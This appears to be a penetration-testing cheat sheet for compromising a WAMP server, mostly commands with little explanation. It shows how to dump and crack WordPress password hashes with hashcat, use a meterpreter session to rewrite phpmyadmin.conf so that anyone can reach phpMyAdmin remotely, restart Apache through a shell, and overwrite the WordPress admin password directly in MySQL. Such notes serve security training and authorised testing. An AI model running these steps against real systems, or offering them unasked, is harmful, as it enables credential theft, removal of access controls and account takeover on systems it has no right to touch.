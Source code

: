 # WAMP

- Check Web app database for hashed user credentials e.g. WordPress.
```
show databases;
use wordpress;
select * from wp_users;

1 | admin      | $P$BXzMzwqxm65vuHegt/rsJN2VbXPtT.1 | admin         | admin@example.com
```

- Crack hashed credentials.
```
hashcat -m400 -a0 hashes.txt /usr/share/wordlists/rockyou.txt
```

- Modify phpmyadmin.conf to allow remote access.
```
meterpreter > cd C:\\wamp\\alias\\
meterpreter > dir
meterpreter > download C:\\wamp\\alias\\phpmyadmin.conf

Edit ACL:

<Directory "c:/wamp/apps/phpmyadmin3.4.10.1/">
    Options Indexes FollowSymLinks MultiViews
    AllowOverride all
        Order Deny,Allow --> Delete
        Deny from all --> Delete
        Allow from 127.0.0.1 --> Allow from all
</Directory>

meterpreter > upload ~/phpmyadmin.conf
meterpreter > cat phpmyadmin.conf
meterpreter > shell

net stop wampapache
net start wampapache
```

- There is no such thing as a phpMyAdmin user. phpMyAdmin is a front-end for MySQL, so we're talking about MySQL users.
```
http://<ip>:8585/phpmyadmin

Your configuration file contains settings (root with no password) that correspond to the default MySQL privileged account. Your MySQL server is running with this default, is open to intrusion, and you really should fix this security hole by setting a password for user 'root'.
```

- Change WordPress admin password from phpMyAdmin.
```
Click on wordpress.
Click on wp-users.
Edit admin user.
Set user_pass to MD5 (function) and password123 (Value).

Go back to http://<ip>:8585/ and click on wordpress under Your Projects.
Alternatively, go to http://<ip>:8585/wordpress/wp-admin.
Log in with the new password.
```

- Change WordPress admin password with mysql.
```
mysql -u root -p -h <ip>
use wordpress;
UPDATE wp_users SET user_pass = MD5('password123') WHERE user_login = 'admin';
```
